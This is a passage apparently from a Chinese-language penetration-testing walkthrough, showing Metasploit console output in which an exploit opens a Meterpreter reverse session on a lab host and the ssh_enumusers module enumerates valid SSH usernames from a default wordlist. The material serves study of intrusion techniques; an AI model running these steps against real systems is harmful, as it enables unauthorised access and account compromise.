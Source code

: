 ```
[+] 7.7.7.20:80 - Exploit Sent
[*] Sending stage (957999 bytes) to 7.7.7.20
[*] Meterpreter session 2 opened (172.16.0.20-172.16.0.11:0 -&gt; 7.7.7.20:4444) at 2016-12-26 14:21:11 +0300
```

或者从JC(7.7.7.20)22端口入手:

```
msf &gt; use auxiliary/scanner/ssh/ssh_enumusers 
msf auxiliary(ssh_enumusers) &gt; set rhosts 7.7.7.20rhosts =&gt; 7.7.7.20msf auxiliary(ssh_enumusers) &gt; set rport 22rport =&gt; 22msf auxiliary(ssh_enumusers) &gt; set user_file /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt
user_file =&gt; /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt
msf auxiliary(ssh_enumusers) &gt; run
[*] 7.7.7.20:22 - SSH - Checking for false positives
[*] 7.7.7.20:22 - SSH - Starting scan
[+] 7.7.7.20:22 - SSH - User 'admin' found
[-] 7.7.7.20:22 - SSH - User 'root' not found
[-] 7.7.7.20:22 - SSH - User 'Administrator' not found
[+] 7.7.7.20:22 - SSH - User 'sysadm' found
[-] 7.7.7.20:22 - SSH - User 'tech' not found
[-] 7.7.7.20:22 - SSH - User 'operator' not found
[+] 7.7.7.20:22 - SSH - User 'guest' found
[-] 7.7.7.20:22 - SSH - User 'security' not found
[-] 7.7.7.20:22 - SSH - User 'debug' not found
[+] 7.7.7.20:22 - SSH - User 'manager' found
[-] 7.7.7.20:22 - SSH - User 'service' not found
[-] 7.7.7.20:22 - SSH - User '!root' not found
[+] 7.7.7.20:22 - SSH - User 'user' found
[-] 7.7.7.20:22 - SSH - User 'netman' not found
[+] 7.7.7.20:22 - SSH - User 'super' found
[-] 7.7.7.20:22 - SSH - User 'diag' not found
[+] 7.7.7.20:22 - SSH - User 'Cisco' found
[-] 7.7.7.20:22 - SSH - User 'Manager' not found
[+] 7.7.7.20:22 - SSH - User 'DTA' found
[-] 7.7.7.20:22 - SSH - User 'apc' not found
[+] 7.7.7.20:22 - SSH - User 'User' found
[-] 7.7.7.20:22 - SSH - User 'Admin' not found
[+] 7.7.7.20:22 - SSH - User 'cablecom' found
[-] 7.7.7.20:22 - SSH - User 'adm' not found
[+] 7.7.7.20:22 - SSH - User 'wradmin' found
[-] 7.7.7.20:22 - SSH - User 'netscreen' not found
[+] 7.7.7.20:22 - SSH - User 'sa' found
[-] 7.7.7.20:22 - SSH - User 'setup' not found
[+] 7.7.7.20:22 - SSH - User 'cmaker' found
[-] 7.7.7.20:22 - SSH - User 'enable' not found
[+] 7.7.7.20:22 - SSH - User 'MICRO' found
[-] 7.7.7.20:22 - SSH - User 'login' not found
[*] Caught interrupt from the console...
[*] Auxiliary module execution completed
^C
msf auxiliary(ssh_enumusers) &gt;
```
